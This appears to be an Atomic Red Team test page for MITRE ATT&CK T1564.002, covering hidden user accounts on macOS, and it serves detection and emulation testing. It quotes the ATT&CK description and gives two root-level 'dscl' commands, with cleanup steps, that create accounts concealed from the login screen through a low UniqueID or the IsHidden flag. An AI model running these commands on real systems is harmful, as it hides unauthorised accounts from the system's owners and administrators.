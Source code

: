 # T1564.002 - Hidden Users
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564/002)
<blockquote>Adversaries may use hidden users to mask the presence of user accounts they create. Every user account in macOS has a userID associated with it. When creating a user, you can specify the userID for that account.

There is a property value in <code>/Library/Preferences/com.apple.loginwindow</code> called <code>Hide500Users</code> that prevents users with userIDs 500 and lower from appearing at the login screen. When using the [Create Account](https://attack.mitre.org/techniques/T1136) technique with a userID under 500 (ex: <code>sudo dscl . -create /Users/username UniqueID 401</code>) and enabling this property (setting it to Yes), an adversary can conceal user accounts. (Citation: Cybereason OSX Pirrit).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create Hidden User using UniqueID < 500](#atomic-test-1---create-hidden-user-using-uniqueid--500)

- [Atomic Test #2 - Create Hidden User using IsHidden option](#atomic-test-2---create-hidden-user-using-ishidden-option)


<br/>

## Atomic Test #1 - Create Hidden User using UniqueID < 500
Add a hidden user on macOS using Unique ID < 500 (users with that ID are hidden by default)

**Supported Platforms:** macOS


**auto_generated_guid:** 4238a7f0-a980-4fff-98a2-dfc0a363d507





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | String | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} UniqueID 333
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>
<br/>

## Atomic Test #2 - Create Hidden User using IsHidden option
Add a hidden user on macOS using IsHidden optoin

**Supported Platforms:** macOS


**auto_generated_guid:** de87ed7b-52c3-43fd-9554-730f695e7f31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | String | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} IsHidden 1
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>

